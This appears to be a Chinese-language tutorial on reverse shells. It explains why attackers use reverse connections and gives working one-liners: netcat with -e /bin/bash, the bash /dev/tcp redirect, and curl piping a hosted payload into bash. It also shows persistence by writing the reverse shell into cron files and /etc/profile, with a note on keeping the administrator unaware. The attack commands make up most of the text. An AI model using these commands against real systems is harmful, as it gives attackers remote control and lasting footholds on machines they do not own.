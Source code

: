 # 简介

反弹shell即攻击机开启某个tcp/udp端口为服务端,让目标机主动发起请求到攻击机监听的端口.

并将其命令行的输出转到攻击机上

## 与正向连接的区别

正向连接,类似远程桌面,ssh,telnet,web服务等,是攻击者用攻击机连接目标机器端口

而当正向连接受限时,比如:

- 目标机被防火墙保护,只能发送请求,不能接受请求.
- 目标机端口被占用
- 目标机位于局域网,或ip动态,攻击机无法直接连接
- 对于对方信息未知

所以反向连接是要目标机主动连接攻击机服务端

# 几种反弹shell的方法

## netcat

netcat是一个容易被其他程序所启用的后台操作工具,同时也被用作网络测试工具或黑客工具.

默认linux发行版中netcat的-e参数被阉割了,如果需要做实验需要先安装原生netcat

安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。

攻击机开启本地监听：

```php
netcat -lvvp 2333
```

目标机主动连接攻击机：

```php
netcat xxx.xxx.xxx.xxx 2333 -e /bin/bash
# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
```



## bash

个人感觉反弹shell最好用的方法就是使用bash结合重定向方法的一句话，具体命令如下：

```php
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1或bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"
# bash -i >& /dev/tcp/攻击机IP/攻击机端口
```

解读:

- bash -i   产生一个bash交互环境
- &将联合符号前面的内容与后面结合,一起重定向给后面的
- /dev/tcp/xxx.xxx.xxx.xxx/2333 让机器与攻击机2333端口建立tcp连接
- 0>&1 将标准输入与标准输出内容相结合,重定向给前面标准输出的内容

一句话概括:

Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

攻击机开启本地监听：

```php
nc -lvvp 2333
```

目标机主动连接攻击机：

```php
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```



### 利用curl与bash配合

先在攻击者web目录下创建一个index文件,例如index.php或者index.html

然后在这个文件里写入:

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

并开启攻击机2333端口,然后在目标机上访问该index网页,并把其内容作为输入给bash

```
curl xxx.xxx.xxx.xxx|bash
```

注意,上面的ip可以是二进制,八进制,十六进制多种形式



### 将反弹shell的命令写入定时任务

  我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 /var/spool/cron/[crontabs]/ 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu系列主机)

```php
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1#每隔一分钟，向47.xxx.xxx.72的2333号端口发送shell
```

### 将反弹shell的命令写入/etc/profile文件

 将以下反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

```php
/bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &# 最后面那个&为的是防止管理员无法输入命令
```